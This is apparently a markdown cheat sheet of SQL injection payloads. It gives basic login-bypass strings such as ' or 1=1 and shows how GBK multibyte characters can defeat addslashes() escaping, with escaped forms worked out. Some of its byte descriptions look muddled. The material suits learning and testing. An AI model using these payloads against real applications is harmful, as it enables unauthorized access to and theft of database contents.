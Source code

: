 # SQL Injection

## Basic

```sql
' or 1=1;
```

```sql
' or ( 1=1 and username='admin');
```

## GBK Charset

- Simplified Chinese charset that has some mutibytes characters ending with `0x5c` (**\\**)
- This can be used if the server uses (`addslashes()`) to escape **'** at the end of user inputs

- ╘ is `a85c`
- \- is `a95c` 
- 乗 is `815c`

Giving as input
```sql
0xa8' OR 1=1; #
```
When escaped gives
```sql
0xa80x5c' OR 1=1; #
```
```sql
╘' OR 1=1; #
```
If the server expects valid GBK chars this may not work, a valid char must be giving
```sql
尐' OR 1=1 ; #
```
> 尐 is `0x8c0xa8`

when escaped
```sql
0x8c0xa80x5c' OR 1=1; #
```
```sql
0x8c╘' OR 1=1; #
```